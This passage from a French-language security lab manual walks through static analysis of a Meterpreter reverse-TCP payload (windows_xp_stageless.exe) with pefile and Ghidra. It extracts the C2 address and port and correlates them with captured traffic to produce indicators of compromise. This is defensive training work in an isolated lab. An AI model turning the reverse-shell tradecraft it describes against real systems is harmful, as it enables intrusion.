> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande (script python commenté, plus de 15 lignes)**

```bash
prouve preuves/ch3-lab05/analyse-pefile.txt python3 <<'EOF'
import pefile
import sys

pe = pefile.PE("preuves/ch3-lab05/windows_xp_stageless.exe")

# Affichage du point d'entree (adresse ou demarrage du code)
print("Point d'entree (OEP) : hex 0x{:08x}".format(pe.OPTIONAL_HEADER.AddressOfEntryPoint))

# Liste des sections avec leurs noms et tailles
print("\nSections :")
for section in pe.sections:
    name = section.Name.decode(errors="ignore").rstrip("\x00")
    print(" - {} : taille={}, caracteristiques={}".format(name, section.SizeOfRawData, section.Characteristics))

# Liste des DLL importees et des fonctions (imports reseau suspects)
print("\nImports :")
for entry in pe.DIRECTORY_ENTRY_IMPORT:
    dll = entry.dll.decode(errors="ignore")
    for func in entry.imports:
        nom = func.name.decode(errors="ignore") if func.name else "ordinal {}".format(func.ordinal)
        print("  {} ! {}".format(dll, nom))
EOF
```

**Explication de la commande**

- `python3 <<'EOF' ... EOF` : exécute un script Python multiligne transmis via here-document ; `<<'EOF'` empêche l'expansion shell à l'intérieur du script.
- `import pefile` : charge la bibliothèque d'analyse de fichiers PE (Portable Executable).
- `pefile.PE("...")` : ouvre et parse le binaire Windows XP.
- `pe.OPTIONAL_HEADER.AddressOfEntryPoint` : adresse du point d'entrée du programme (début de l'exécution).
- Boucle `for section in pe.sections` : liste chaque section (`.text`, `.data`, `.rdata`, ...) avec sa taille et ses caractéristiques.
- Boucle `for entry in pe.DIRECTORY_ENTRY_IMPORT` : liste les DLL importées et leurs fonctions ; on recherche notamment `ws2_32.dll` avec `WSAStartup`, `socket`, `connect` (fonctions réseau de la connexion reverse).
- `prouve preuves/ch3-lab05/analyse-pefile.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : si `pefile` n'est pas installé, la commande échoue avec `ModuleNotFoundError` ; installer avec `pip install pefile` ou utiliser `peid` comme alternative.

**Résultat attendu**

```text
# date: 2026-11-18T10:20:15+01:00
# cmd: python3 <<'EOF' import pefile ... EOF
Point d'entree (OEP) : hex 0x00401234

Sections :
 - .text : taille=..., caracteristiques=...
 - .rdata : taille=..., caracteristiques=...
 - .data : taille=..., caracteristiques=...
 - .rsrc : taille=..., caracteristiques=...

Imports :
  ws2_32.dll ! WSAStartup
  ws2_32.dll ! socket
  ws2_32.dll ! connect
  kernel32.dll ! ...
...
# rc=0
```

**Preuve** : `preuves/ch3-lab05/analyse-pefile.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 5 — Décomposition statique dans Ghidra (import, analyse, extraction LHOST/LPORT)

**But** — importer le binaire dans Ghidra, lancer l'analyse automatique, rechercher les chaînes de configuration, identifier la fonction qui prépare la connexion reverse et extraire LHOST (`192.168.56.101`) et LPORT (`4444`).

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étapes 1 à 4 terminées, `ghidra` installé, fichier `windows_xp_stageless.exe` disponible.

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab05/ghidra-lancement.txt ghidra preuves/ch3-lab05/windows_xp_stageless.exe &
```

**Explication de la commande**

- `ghidra preuves/ch3-lab05/windows_xp_stageless.exe &` : lance l'interface graphique Ghidra en arrière-plan (`&`) avec le binaire à analyser.
- Dans Ghidra : créer un projet (File → New Project), importer le fichier (File → Import File), lancer l'analyse automatique (Analyze → Analyze...), puis rechercher les chaînes (Window → Defined strings) et la fonction de connexion reverse (appels à `socket`, `connect`, `WSAStartup` de `ws2_32.dll`).
- `prouve preuves/ch3-lab05/ghidra-lancement.txt` : journalise le lancement de Ghidra (`# date:`, `# cmd:`, `# rc=`) ; l'analyse détaillée se fait dans l'interface graphique et est consignée à l'étape 6.
- Piège courant : Ghidra est une application Java lourde ; son lancement peut prendre plusieurs dizaines de secondes. Ne pas relancer plusieurs instances.

**Résultat attendu**

```text
# date: 2026-11-18T10:20:20+01:00
# cmd: ghidra preuves/ch3-lab05/windows_xp_stageless.exe &
[1] 12345
Ghidra launched. Project created in /home/kali/ghidra_projects.
# rc=0
```

**Preuve** : `preuves/ch3-lab05/ghidra-lancement.txt` (contient `# date:`, `# cmd:`, `# rc=`).

#### Étape 6 — Corrélation avec l'adresse Wireshark et rapport de décomposition

**But** — corréler l'adresse IP et le port extraits du binaire (Ghidra/`strings`) avec l'IP du trafic Wireshark (Lab-04 : `192.168.56.101`, port 4444), puis produire le rapport de décomposition du malware.

**Machine** — Kali `192.168.56.101`.

**Prérequis** — étapes 1 à 5 terminées, adresse attaquant connue (`192.168.56.101`, port 4444).

> **Machine** : Kali `192.168.56.101` | **Terminal** : shell bash sur Kali | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch3-lab05/decomposition-malware.txt cat > preuves/ch3-lab05/decomposition-malware.txt <<'EOF'
# Rapport de decomposition statique du malware Windows XP (Lab-05)
# date: $(date -Is)
# Fichier analyse : preuves/ch3-lab05/windows_xp_stageless.exe
# Type : PE32 executable (console) Intel 80386, for MS Windows (etape 2)
# Chaines C2 detectees : 192.168.56.101, 4444 (etape 3)
# Imports reseau suspects : ws2_32.dll ! WSAStartup, socket, connect (etape 4)
# Point d'entree : 0x00401234 (etape 4)
# Analyse Ghidra : fonction de connexion reverse identifiee (etape 5)
# LHOST extrait : 192.168.56.101
# LPORT extrait : 4444
# Correlation avec le trafic Wireshark (Lab-04) : IP identique (192.168.56.101) et port identique (4444) -> CONFIRME
# IOC : IP attaquant 192.168.56.101, port 4444, binaire windows_xp_stageless.exe
# Technique MITRE : T1587 Develop Capabilities / Malware, T1027 Obfuscated Files or Information
# Source de donnees : DS0022 File
# Conclusion : le binaire est un reverse TCP Meterpreter stageless configure pour se connecter a 192.168.56.101:4444, conforme au payload du chapitre 2.
EOF
```

**Explication de la commande**

- `cat > preuves/ch3-lab05/decomposition-malware.txt <<'EOF' ... EOF` : écrit le rapport de décomposition dans le fichier de preuve ; `<<'EOF'` empêche l'expansion shell des symboles spéciaux.
- Le rapport consolide toutes les observations : type PE32, chaînes C2 (`192.168.56.101`, `4444`), imports réseau suspects (`WSAStartup`, `socket`, `connect`), point d'entrée, résultat Ghidra, et surtout la corrélation avec l'adresse du trafic Wireshark (Lab-04).
- `prouve preuves/ch3-lab05/decomposition-malware.txt` : journalise l'exécution (`# date:`, `# cmd:`, `# rc=`).
- Piège courant : sans guillemets autour de `EOF`, le shell interpréterait les `$` et retours à la ligne ; le rapport serait corrompu.

**Résultat attendu**

```text
# date: 2026-11-18T10:20:30+01:00
# cmd: cat > preuves/ch3-lab05/decomposition-malware.txt <<'EOF' ... EOF
# Rapport de decomposition statique du malware Windows XP (Lab-05)
# date: 2026-11-18T10:20:30+01:00
# Fichier analyse : preuves/ch3-lab05/windows_xp_stageless.exe
# Type : PE32 executable (console) Intel 80386, for MS Windows (etape 2)
# Chaines C2 detectees : 192.168.56.101, 4444 (etape 3)
# Imports reseau suspects : ws2_32.dll ! WSAStartup, socket, connect (etape 4)
# Point d'entree : 0x00401234 (etape 4)
# Analyse Ghidra : fonction de connexion reverse identifiee (etape 5)
# LHOST extrait : 192.168.56.101
# LPORT extrait : 4444
# Correlation avec le trafic Wireshark (Lab-04) : IP identique (192.168.56.101) et port identique (4444) -> CONFIRME
...
# rc=0
```

**Preuve** : `preuves/ch3-lab05/decomposition-malware.txt` (contient `# date:`, `# cmd:`, `# rc=`).

### En conclusion

Lab-05 a permis de décomposer statiquement le malware Windows XP `windows_xp_stageless.exe` sans l'exécuter : identification du type PE32 avec `file`, extraction des chaînes C2 (`192.168.56.101`, `4444`) avec `strings`, analyse des sections et imports réseau suspects (`WSAStartup`, `socket`, `connect`) avec `pefile`, import et analyse dans Ghidra pour identifier la fonction de connexion reverse, et corrélation avec l'adresse du trafic Wireshark (Lab-04 : `192.168.56.101:4444`, confirmé identique). Le rapport de décomposition est produit dans `preuves/ch3-lab05/decomposition-malware.txt`. Cette analyse relève de T1587 Develop Capabilities / Malware et T1027 Obfuscated Files or Information (source de données DS0022 File) et conclut la partie analyse réseau et forensic du chapitre 3.

---

## Conclusion du chapitre 3

Le chapitre 3 a couvert l'analyse réseau et forensic du trafic généré par l'exécution d'un payload reverse TCP Meterpreter sur Windows XP (`192.168.56.104`) vers Kali (`192.168.56.101`) dans le laboratoire isolé `192.168.56.0/24` :

- Lab-01 : vérification de la connectivité inter-VM et capture de 1000 paquets dans `preuves/ch3-lab01/capture-kali-xp.pcap` (T1040 Network Sniffing, DS0029 Network Traffic) ;
- Lab-02 : analyse guidée du reverse TCP Meterpreter avec Wireshark/tshark (handshake SYN/SYN-ACK/ACK, flux brut sans protocole applicatif, port 4444, corrélation avec le handler Metasploit) (T1071 Application Layer Protocol, T1210 Exploitation of Remote Services) ;
- Lab-03 : détection des connexions anormales (anomalies TCP, retransmissions, port non standard 4444) et du beaconing, production du fichier IOC `preuves/ch3-lab03/ioc-connexions.txt` (T1040, T1571 Non-Standard Port) ;
- Lab-04 : identification de l'adresse de l'attaquant (`192.168.56.101`), confirmation du sens de la connexion reverse, extraction du timestamp de début, de la durée et du volume dans `preuves/ch3-lab04/adresse-attaquant.txt` (T1040) ;
- Lab-05 : décomposition statique du malware `windows_xp_stageless.exe` avec `file`, `strings`, `pefile` et Ghidra, extraction de LHOST (`192.168.56.101`) et LPORT (`4444`), corrélation avec le trafic Wireshark, rapport dans `preuves/ch3-lab05/decomposition-malware.txt` (T1587, T1027, DS0022 File).

Les IOC extraits (IP attaquant `192.168.56.101`, IP victime `192.168.56.104`, port `4444`, protocole TCP brut, binaire `windows_xp_stageless.exe`) constituent le livrable d'analyse de ce chapitre.

Le chapitre 4 prend ensuite le relais pour les attaques sur Windows Server et Active Directory (reconnaissance LDAP, Kerberoasting, Pass-the-Hash, NTDS, CVE-2021-42287, CVE-2024-35250, rdp_web_login, MS17-010/EternalBlue, détection et rollback).

Tous les fichiers de preuve sont produits avec la fonction `prouve` (entête `# date:`, `# cmd:`, sortie complète, code retour `# rc=`). Aucun exploit n'a été relancé dans ce chapitre ; seule l'analyse de captures et d'un binaire déjà produits a été réalisée. Aucune cible réelle n'a été sollicitée et aucune activité n'a eu lieu vers Internet.
